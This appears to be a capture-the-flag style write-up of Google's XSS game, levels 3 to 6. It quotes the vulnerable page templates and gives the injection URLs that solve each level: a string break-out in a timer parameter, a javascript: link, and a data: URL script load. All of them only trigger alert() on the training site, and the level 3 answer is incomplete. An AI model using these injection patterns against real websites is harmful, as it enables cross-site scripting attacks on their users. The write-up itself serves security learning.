

# Google Xss game

<!--more-->

### Level 3



This website provides some API (after the arch pointer).

solution:

```https://xss-game.appspot.com/level3/frame#```

### level 4


```javascript
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    
    <br>
    
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

solution:

```
https://xss-game.appspot.com/level4/frame?timer=');alert('
```


### level 5


```html
<!--signup.html-->
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

solution: 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xss')
```

and click the ``Next`` button.

### level 6


This website allow user to execute alternative js script

solution:

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

